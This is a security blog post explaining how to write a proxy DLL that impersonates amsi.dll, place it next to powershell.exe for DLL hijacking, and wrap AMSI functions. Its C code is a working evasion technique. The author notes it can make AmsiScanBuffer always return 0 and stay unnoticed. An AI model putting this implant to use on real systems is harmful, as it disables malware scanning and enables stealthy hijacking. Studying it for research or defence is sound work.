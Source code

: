 ```yaml
---
title: Manual DLL-Wrapping technique (AMSI DLL-Implant)
createdAt: 06/05/2024
---
```


**TLDR**: [Repository with final AMSI Dll-Implant](https://github.com/Print3M/amsi-memory-patching?tab=readme-ov-file)

## Standard DLL-Proxy using for DLL Hijacking

Many tutorials show the easiest methods to implement DLL-Wrapper (or maybe I should call it DLL-Proxy) using the following syntax:

```c
#pragma comment(linker, "/export:exportedFunc=legitDll.exportedFunc")
```

This actually exports a legitimate function (`exportedFunc`) from our custom DLL. The problem is that this way we have no actual control over the function. Usually in the case of standard DLL hijacking it looks like this:

```c
#include "pch.h"

// Exported legit functions
#pragma comment(linker, "/export:exampleFunc1=legitDll.exampleFunc1")
#pragma comment(linker, "/export:exampleFunc2=legitDll.exampleFunc2")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  reason, LPVOID lpReserved)
{
    if (reason == DLL_PROCESS_ATTACH) {
        /* MALICIOUS CODE HERE */
    }

    return TRUE;
}
```

As we can see above, our action is performed only when the DLL is loaded. We have no direct control over the functions we export. But I want to control the execution of these functions - the incoming parameters and the returned values. I want to add my own DLL-implant. This can come in handy for **more stealthy DLL-Hijacking tactics**, or for conveniently manipulating module parameters to get a better idea of what is going on.

It can also be a way to bypass certain security features as in the case of AMSI. By controlling the `AmsiScanBuffer()` function from `amsi.dll` we are able to return `0` every time and effectively disable AMSI checks. See [my previous post](/blog/amsi-memory-patching-bypass) for a better understanding of this concept.

So how can we do it? Well, we can create functions in our custom `fake-amsi.dll` DLL module, whose names and parameters will coincide with those of the legit `amsi.dll`. Let's see what is exported from `amsi.dll` using PE-bear program:

![PE-bear screenshot: exported functions of amsi.dll](/imgs/amsi-dll-wrapper/1.png)

Here we see the names of the functions we need to export from our DLL module. We also need to know what parameters these functions expect. This is what we can find out from the Microsoft documentation: [amsi.h header](https://learn.microsoft.com/en-us/windows/win32/api/amsi/).  

> I thought that when writing my own wrapper-functions, in addition to the name and parameters of functions, I also need to keep the calling convention in sync with the legit DLL. It turned out that with x86-64 architecture Microsoft uses only one calling convention. Basically all calling conventions (e.g. stdcall, thiscall, cdecl, and fastcall) resolve to using this _one ultimate convention_. Special keywords like `__fastcall` are simply ignored by compiler. [Read more here](https://en.wikipedia.org/wiki/X86_calling_conventions#Microsoft_x64_calling_convention).

Now we have everything to start implementing our DLL wrapper. First we load legit-amsi.dll using the absolute path, then we get the addresses of the functions we want to wrap.

```c
void DllInit() {
    // Load legit-AMSI module
    HMODULE hAmsiDll = LoadLibraryA("C:\\Windows\\System32\\amsi.dll");
    
    // Get addresses of legit-AMSI functions
    pAmsiInitialize = (AmsiInitializeT)GetProcAddress(hAmsiDll, "AmsiInitialize");
    pAmsiOpenSession = (AmsiOpenSessionT)GetProcAddress(hAmsiDll, "AmsiOpenSession");
    pAmsiCloseSession = (AmsiCloseSessionT)GetProcAddress(hAmsiDll, "AmsiCloseSession");
    pAmsiScanBuffer = (AmsiScanBufferT)GetProcAddress(hAmsiDll, "AmsiScanBuffer");
    pAmsiScanString = (AmsiScanStringT)GetProcAddress(hAmsiDll, "AmsiScanString");
    pAmsiUninitialize = (AmsiUninitializeT)GetProcAddress(hAmsiDll, "AmsiUninitialize");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID lpReserved)
{
    if (reason == DLL_PROCESS_ATTACH) {
        // Load legit-AMSI when DLL is attached
        DllInit();
        printf("[+] Custom AMSI.DLL loaded\n");
    }

    return TRUE;
}
```

Then we create wrappers for each function according to the scheme below. It's best to make a wrapper for each function to make sure that everything will work flawlessly and no one will realize that it's just a wrapper for a legitimate DLL.

> I write in C++, so `extern "C"` is used to avoid default name mangling of exported functions. `__declspec(dllexport)` is used to export a function from our DLL file.

```c
// Type of AmsiInitialize function pointer
typedef HRESULT(*AmsiInitializeT)(LPCWSTR, HAMSICONTEXT*);

// AmsiInitialize function pointer
AmsiInitializeT pAmsiInitialize;

// AmsiInitialize function wrapper
extern "C" __declspec(dllexport) HRESULT AmsiInitialize(LPCWSTR appName, HAMSICONTEXT * amsiContext) {
    /*
        Here we can do whatever malicious or debug things we want.

        Then call legit AmsiInitialize function so that no one will
        realize that something has been changed 
    */
    return pAmsiInitialize(appName, amsiContext);
}
```

After compiling as a DLL file, we can see the exported functions again using PE-Bear:

![PE-bear screenshot: exported functions of custom amsi-implant.dll](/imgs/amsi-dll-wrapper/2.png)

I didn't implement literally all the functions from the original amsi.dll, but the rest proved useless, at least for my case. `powershell.exe`, like most executable binaries, looks for DLL modules in the same directory where the .exe file is located. This allows us to perform **DLL hijacking** and give him our fake `amsi.dll` implant.

![Location of amsi.dll implant in powershell.exe folder](/imgs/amsi-dll-wrapper/3.png)

The implant is ready. Of course, this is also one of the AMSI bypass techniques, because we fully control the execution of the `AmsiScanBuffer()` function, so it can always return `0` and execute any PowerShell script we want. My goal, however, was to see what exactly is sent, and what AMSI (actually Windows Defender) returns, in the case of a malicious script:

![PowerShell command-line with amsi.dll implant](/imgs/amsi-dll-wrapper/4.png)

We can see that our implant is working. It is loaded right at the start of `powershell.exe` which sends the entire PowerShell startup scripts to AMSI **without any chunking at all**. Literally every command you type, every line of PowerShell is scanned by AMSI. Now let's check what happens when AMSI detects a malicious PowerShell script.

![amsi.dll implant detects malicious PowerShell script](/imgs/amsi-dll-wrapper/5.png)

Highlighted in yellow is the result that the `ScanStringBuffer()` function returned on the malicious script. Microsoft's documentation says: _Any return result equal to or larger than 32768 is considered malware_ ([source](https://learn.microsoft.com/en-us/windows/win32/api/amsi/ne-amsi-amsi_result)). Our value is exactly `32768` which means everything works as intended. From my observations, this number (at least with the default Windows Defender) is never higher than `32768`, although it could be.

The experiment was successful. Now you know how to manually create your own wrappers for DLL modules and have full control over the execution of exported functions.

\~ Print3M
